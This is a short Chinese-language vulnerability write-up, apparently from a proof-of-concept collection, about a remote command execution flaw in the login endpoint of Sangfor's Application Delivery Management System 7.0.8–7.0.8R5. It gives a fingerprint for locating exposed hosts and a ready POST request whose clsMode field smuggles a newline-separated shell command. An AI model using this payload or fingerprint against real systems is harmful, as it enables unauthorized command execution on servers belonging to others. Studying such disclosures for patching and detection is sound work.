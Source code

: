 # 深信服 应用交付管理系统 login 远程命令执行漏洞

# 深信服 应用交付管理系统 login 远程命令执行漏洞

## 漏洞描述

深信服 应用交付管理系统 login 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令

## 漏洞影响

深信服 应用交付管理系统 7.0.8-7.0.8R5

## 网络测绘

```
fid="iaytNA57019/kADk8Nev7g=="
```

## 漏洞复现

登陆页面

![image-20230828164544551](images/image-20230828164544551.png)

验证POC

```
POST /rep/login 

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```

![image-20230828164602536](images/image-20230828164602536.png)

